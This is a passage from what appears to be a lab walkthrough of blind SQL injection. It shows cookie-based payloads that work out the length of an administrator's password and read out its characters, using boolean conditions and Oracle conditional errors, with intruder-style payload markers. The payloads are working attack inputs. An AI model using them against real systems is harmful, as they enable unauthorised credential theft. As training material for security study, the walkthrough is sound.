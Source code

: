 Checking the char. length of the password
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--
```

Using a Sniper Payload for efficiency&speed (found that password length = 20)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§ )='a'--
```

Checking if first character of the password = 'a' using SUBSTRING(field, position, length)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'--
```

Using Cluster Bomb payload for efficiency&speed for all the positions (1-20)(a-z)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§'--
```


## **11. Blind SQL injection with conditional errors(ORACLE)**
We will perform injection based on the session cookie (internal server error: positive response) 
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=1--NO ERROR or Message
```

```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND 1=0--NO ERROR or Message
```

So we will use a different conditional approach:

If (1=0) --> FALSE so will result no error because of ELSE 'a' (we will loose track of injection)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a'--
```

If (1=1) --> TRUE  so will result error because of TO_CHAR(1/0) (we will build our logic on this)
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual) = 'a'--
```


If LENGTH(password)>1 --> error which means that we are on the track  
```
Cookie: TrackingId=XZqKxHXKgUbxQYVh' AND(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--
```
